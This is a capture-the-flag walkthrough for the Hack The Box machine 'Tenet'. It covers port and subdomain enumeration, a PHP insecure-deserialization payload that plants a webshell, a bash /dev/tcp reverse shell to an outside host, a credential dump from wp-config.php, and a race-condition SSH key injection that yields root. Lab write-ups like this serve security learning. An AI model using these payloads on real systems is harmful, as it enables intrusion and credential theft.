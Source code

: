 # [Tenet](https://app.hackthebox.com/machines/tenet)

```bash
nmap -p- --min-rate 10000 10.10.10.223 -Pn
```

![alt text](img/image.png)


After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.10.223 -Pn
```

![alt text](img/image-1.png)


While browsing `Wordpress` website, I see `tenet.htb` domain.

![alt text](img/image-2.png)


Let's add this into `/etc/hosts` file for resolving purposes.


Let's do `Subdomain Enumeration` via `wfuzz` command.
```bash
wfuzz -c -H "Host: FUZZ.tenet.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.223 --hh 10918
```

![alt text](img/image-3.png)


I add `www.tenet.htb` domain name also into `/etc/hosts` file.


Our `tenet.htb` application is like below.

![alt text](img/image-4.png)


Let's do `Directory Enumeration` for `tenet.htb` web application.
```bash
gobuster dir -u http://tenet.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php,txt,bak
```

![alt text](img/image-5.png)


Now, it's time to enumerate web application. I find a comment for one blog says information leakage.

![alt text](img/image-6.png)


Let's look at `sator.php` and `sator.php.bak` files on `tenet.htb`, but can't find anything.

I found these files by resolving ip address itself.


Let's look at old `sator.php` file.

![alt text](img/image-7.png)


While I browse `sator.php` file, it says such comments on web application.

![alt text](img/image-8.png)


From `sator.php.bak` file, I see that there's `serialized` keyword is used, it means there can be `Insecure Deserialization` attack.


Let's write webshell code for `DatabaseExport` class.
```php
<?php

class DatabaseExport {

    public $user_file = "dr4ks.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$sploit = new DatabaseExport;
echo serialize($sploit);
?>
```


While I run this code `php dr4ks.php`, it gives me such output.

![alt text](img/image-9.png)


Let's upload our malicious file into web application via `curl` command and we should make `URL Encoding`.

```bash
curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"dr4ks.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}'
```

![alt text](img/image-10.png)


Let's check that our `webshell` is located or not by browsing.
```bash
curl http://10.10.10.223/dr4ks.php?cmd=id
```

![alt text](img/image-11.png)


It's time to add reverse shell payload into command section.

```bash
curl -X GET http://10.10.10.223/dr4ks.php -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.18/1337 0>&1"'
```

![alt text](img/image-12.png)


I got reverse shell from port `1337`.

![alt text](img/image-13.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg 
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-14.png)


I find `wp-config.php` file on `/var/www/html/wordpress` directory which contains sensitive credentials.

![alt text](img/image-15.png)


neil: Opera2112


Let's connect into machine via `ssh`.

user.txt

![alt text](img/image-16.png)


While I look at privileges of this user via `sudo -l` command, I see `enableSSH.sh` script.

![alt text](img/image-17.png)


I see `addKey()` function is located here, I need to abuse this for entering my public key (id_rsa.pub) file.


![alt text](img/image-18.png)


Let's inject our pubcliy (id_rsa.pub) file as below to make `Race Condition` vulnerability.
```bash
while true; do for fn in /tmp/ssh-*; do echo "{public_key}" > $fn; done; done
```

![alt text](img/image-19.png)

Note: But, we need to run `sudo enableSSH.sh` this on another  terminal due to abusing `Race Condition` vulnerability.

![alt text](img/image-20.png)


From above image, I need to see `Error in creating key file!` word after this I can login into machine for `root` account by using my private key (id_rsa) file.


root.txt

![alt text](img/image-21.png)
